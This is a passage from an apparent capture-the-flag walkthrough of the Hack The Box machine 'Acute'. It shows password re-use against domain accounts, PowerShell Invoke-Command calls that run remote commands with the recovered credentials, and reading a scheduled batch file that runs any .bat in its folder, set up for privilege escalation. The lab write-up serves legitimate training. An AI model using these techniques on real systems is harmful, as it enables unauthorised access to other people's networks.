We got a password for the *Administrator* account. Maybe it is re-used on another account.

## Password Re-use

By trying the password on the previously discovered users, we found an account using the same password, **AWallace**.

```powershell
$Pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force 
$Creds = New-Object System.Management.Automation.PSCredential ("Acute\AWallace", $Pass)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -Credential $Creds
```

With our new privileges, we were able to find a readable file named **keepmeon.bat**. Let's extract its content.

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-Content 'C:\Program Files\Keepmeon\keepmeon.bat'} -Credential $Creds
```

Here is the content of the file:

```bash
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

As per the description of the script, it seems like this script is executed every 5 minutes **Lois** and run every BAT script present in the **C:\Program Files\Keepmeon** folder. If we check the **DOCX** file, we can see a reference to this user.

![image-center](/images/htb/htb_acute_word_4.png){: .align-center}

**Lois** has access to a group related to **site admin**. Let's list the groups present on the domain and see if we can find something.

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group /domain} -Credential $Creds
```
